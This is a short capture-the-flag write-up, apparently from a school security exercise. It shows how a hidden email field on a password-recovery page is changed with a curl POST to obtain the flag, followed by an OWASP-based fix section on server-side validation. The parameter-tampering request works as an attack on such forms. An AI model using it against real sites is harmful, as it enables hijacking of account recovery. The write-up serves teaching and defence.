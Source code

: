 # Hidden in plain sight

## Exploit
On the password recovery page `${URL}/?page=recover` we can see a hidden form containing the webmaster email.
```html
<form action="#" method="POST">
        <input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
        <input type="submit" name="Submit" value= "Submit">
</form>
```

We'll exploit this by sending a POST request with our own email using cURL.
```shell
$ curl -s -X POST --data "mail=xperrin@student.42.fr&Submit=Submit" "${URL}/?page=recover" | grep -i flag
<center><h2 style="margin-top:50px;"> The flag is : [REDACTED]</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

## Fix
[OWASP](https://owasp.org/www-community/attacks/Web_Parameter_Tampering)

The server should never assume that the data the client sent is trustworthy and should validate every argument.
Here it shouldn't let the user specify a mail address at all and should instead retrieve it server-side.
Also, hidden fields should never be used with secure information.
